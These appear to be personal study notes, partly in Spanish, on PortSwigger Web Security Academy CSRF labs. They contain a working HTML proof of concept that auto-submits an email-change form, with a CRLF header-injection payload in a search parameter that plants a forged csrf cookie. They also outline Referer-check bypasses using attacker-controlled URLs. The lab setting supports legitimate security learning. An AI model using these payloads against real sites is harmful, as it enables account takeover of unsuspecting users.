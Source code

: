 ```html
    <form action="https://0ade00720368d922c08f2844003c00ac.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fadfd" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://0ade00720368d922c08f2844003c00ac.web-security-academy.net/?search=adfa%0D%0ASet-Cookie:%20csrf=fadfd" onerror="document.forms[0].submit()">
  </body>
</html>
```
No funciona, cambiamos el csrf por el malo 

![](assets/2022-07-14-19-27-40.png) 

```mermaid
flowchart TB
A[Referer-based defenses against CSRF]-->B[Validation of Referer depends on header being present]-->D[probamos quitar referer]-->E[hacemos un poc y añadimos la etiqueta de referer content never]
A-->C[Validation of Referer can be circumvented]
C-->Z[Puedo añadir en referer otra url?]
Z-->|use poc and history.pushSTATE and Referrer-Policy: unsafe-url|N[http://attacker-website.com/csrf-attack?vulnerable-website.com]
Z-->|use poc and history.pushSTATE and Referrer-Policy: unsafe-url|L[http://vulnerable-website.com.attacker-website.com/csrf-attack]
```
USE:
POC
+
Referrer-Policy: unsafe-url
+
history.pushState("", "", "/?your-lab-id.web-security-academy.net")

## Lab: CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hay que hacer un típico poc (del change mail) pero cambiar el header 

![](assets/2022-07-14-19-56-54.png)
